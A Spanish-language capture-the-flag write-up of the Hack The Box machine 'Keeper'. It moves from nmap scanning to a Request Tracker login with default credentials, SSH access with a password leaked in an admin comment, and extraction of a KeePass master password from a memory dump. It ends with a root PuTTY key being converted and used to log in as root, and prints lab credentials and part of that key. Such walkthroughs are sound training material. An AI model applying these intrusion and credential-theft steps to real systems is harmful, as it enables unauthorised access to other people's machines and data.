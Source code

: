 ![Keeper](https://github.com/n0m3l4c000nt35/Hack-The-Box/assets/149972189/f9ded6c6-9195-46ea-acb7-d1d3f9343d4d)

# Reconocimiento
---

Para iniciar la evaluación de la máquina **Keeper** en Hack The Box, se comenzó con un escaneo de puertos utilizando Nmap para identificar los servicios disponibles en la máquina objetivo.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.227 -oG ports
```

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-16 00:18 -03
Initiating SYN Stealth Scan at 00:18
Scanning 10.10.11.227 [65535 ports]
Discovered open port 22/tcp on 10.10.11.227
Discovered open port 80/tcp on 10.10.11.227
Completed SYN Stealth Scan at 00:19, 15.04s elapsed (65535 total ports)
Nmap scan report for 10.10.11.227
Host is up, received user-set (0.16s latency).
Scanned at 2023-12-16 00:18:55 -03 for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.15 seconds
           Raw packets sent: 73909 (3.252MB) | Rcvd: 73532 (2.941MB)
```

El escaneo reveló la existencia de los puertos 22 (SSH) y 80 (HTTP) abiertos en la máquina.

```bash
nmap -p 22,80 -n -Pn -sCV 10.10.11.227 -oN openPorts
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-16 00:21 -03
Nmap scan report for 10.10.11.227
Host is up (0.15s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
|_  256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn\'t have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.57 seconds
```

El análisis detallado de los servicios en estos puertos indicó que la máquina estaba ejecutando OpenSSH 8.9p1 en el puerto 22 y un servidor web nginx 1.18.0 en el puerto 80.

Además, se modificó el archivo `/etc/hosts` para asociar la dirección IP de la máquina objetivo con el nombre de dominio `tickets.keeper.htb`.

Se procedió a acceder al sitio web en [http://10.10.11.227](http://10.10.11.227/).

```bash
nvim /etc/hosts
<ip-victima>  tickets.keeper.htb
```

[http://tickets.keeper.htb/rt/](http://tickets.keeper.htb/rt/)

# Descubrimiento de la vulnerabilidad
---

Al explorar **Request Tracker**, se descubrieron credenciales predeterminadas para el usuario root:

[Request Tracker Default credentials](https://docs.bestpractical.com/rt/4.4.4/README.html)

```bash
NOTE: The default credentials for RT are:
		User: root
		Pass: password
```

Ingresando al panel de administración en [http://tickets.keeper.htb/rt/Admin/Users/](http://tickets.keeper.htb/rt/Admin/Users/), se encontraron dos usuarios: `lnorgaard` y `root`.

| #   | Name      | Real Name     | Email Address        | Status  |
| --- | --------- | ------------- | -------------------- | ------- |
| 27  | lnorgaard | Lise Nørgaard | lnorgaard@keeper.htb | Enabled |
| 14  | root      | Enoch Root    | root@localhost       | Enabled |

En el panel de edición del usuario `lnorgaard` [http://tickets.keeper.htb/rt/Admin/Users/Modify.html?id=27](http://tickets.keeper.htb/rt/Admin/Users/Modify.html?id=27) se encuentra un comentario indicando que la contraseña inicial es `Welcome2023!`.

```
New user. Initial password set to Welcome2023!
```

Se procede a entablar una conexión por SSH con el servidor como el usuario `lnorgaard`.

```bash
sshpass -p 'Welcome2023!' ssh lnorgaard@<ip-victima>
```

## User Flag
---

Se accedió exitosamente al sistema como `lnorgaard` utilizando la contraseña encontrada. La flag del usuario se obtuvo ejecutando el siguiente comando:

> [!IMPORTANT]
> User flag `cat /home/lnorgaard/user.txt`

# Escalada de privilegios
---

Se procedió a realizar una escalada de privilegios para obtener acceso a la cuenta root. Se estableció un servidor con **python3** para poder descargar el archivo `RT30000.zip` a la máquina atacante.

```bash
python3 -m http.server <puerto>
KeePassDumpFull.dmp  RT30000.zip  k.ppk  passcodes.kdbx
```

Se descargó el archivo `RT30000.zip` en la máquina atacante y se descomprimió con los siguientes comandos:

```bash
wget http://<ip-victima>/<puerto>/RT30000.zip
unzip RT30000.zip
```

Utilizando la herramienta [KeePass 2.X Master Password Dumper](https://github.com/vdohney/keepass-password-dumper?tab=readme-ov-file), se extrajo una posible contraseña.

[Setup KeePass 2.X Master Password Dumper](https://github.com/vdohney/keepass-password-dumper?tab=readme-ov-file#setup)

Para configurar el KeePass se necesitó instalar lo siguiente:  
[Download .NET For Windows](https://dotnet.microsoft.com/en-us/download)  
[Descargar .NET 7.0 Runtime](https://dotnet.microsoft.com/es-es/download/dotnet/7.0/runtime?cid=getdotnetcore&os=windows&arch=x64)

Se ejecutó el programa `dotnet` para extraer la posible contraseña
`dotnet run KeePassDumpFull.dmp`

```bash
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.:     d,
4.:     g,
5.:     r,
6.:     ø,
7.:     d,
8.:      ,
9.:     m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

Tras una búsqueda en Google de la posible contraseña encontrada se determinó que la contraseña está escrita en idioma danés.
[Resultados de la búsqueda en Google de M}dgrød med fløde](https://www.google.com/search?q=M%7Ddgr%C3%B8d+med+fl%C3%B8de&rlz=1C1CHBF_esAR1082AR1082&oq=M%7Ddgr%C3%B8d+med+fl%C3%B8de&gs_lcrp=EgZjaHJvbWUqBggAEEUYOzIGCAAQRRg7Mg4IARAAGAoYQxiABBiKBdIBBzc4MWowajeoAgCwAgA&sourceid=chrome&ie=UTF-8)  
`rødgrød med fløde`

Se descargó [KeePassXC](https://keepassxc.org/) y se utilizó para abrir el archivo `passcodes.kdbx` con la contraseña obtenida.
[https://keepassxc.org/download/#linux](https://keepassxc.org/download/#linux)

```bash
keepassxc passcodes.kdbx
rødgrød med fløde
```

En el apartado **Network** se encuentra un usuario **root** y se visualiza una clave privada la que copiamos y guardamos en un archivo con extensión **.ppk**

key.ppk
```
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
```

Para acceder al sistema como el usuario root y haciendo uso de la clave encontrada en el gestor de contraseñas se necesita convertir la clave privada.

[https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)  
Seguir las instrucciones del README.md para instalar la última versión de `putty`

```bash
cmake .
cmake --build .
cmake --build . --target install
```

Al instalar la versión 0.79 (al día de escrito este write-up) la última versión, se puede convertir el archivo key.ppk a un archivo **PEM RSA private key**. Puede que versiones anteriores a esta arrojen un error en la conversión.

```bash
puttygen key.ppk -O private-openssh -o root.pem
```

Accedemos al sistema mediante SSH haciendo uso de la clave privada recientemente convertida.

```bash
ssh -i root.pem root@10.10.11.227
```

## Root Flag
---

Con privilegios de root, se localizó la root flag en el directorio `/root`

> [!IMPORTANT]
> Root flag `cat /root/root.txt`
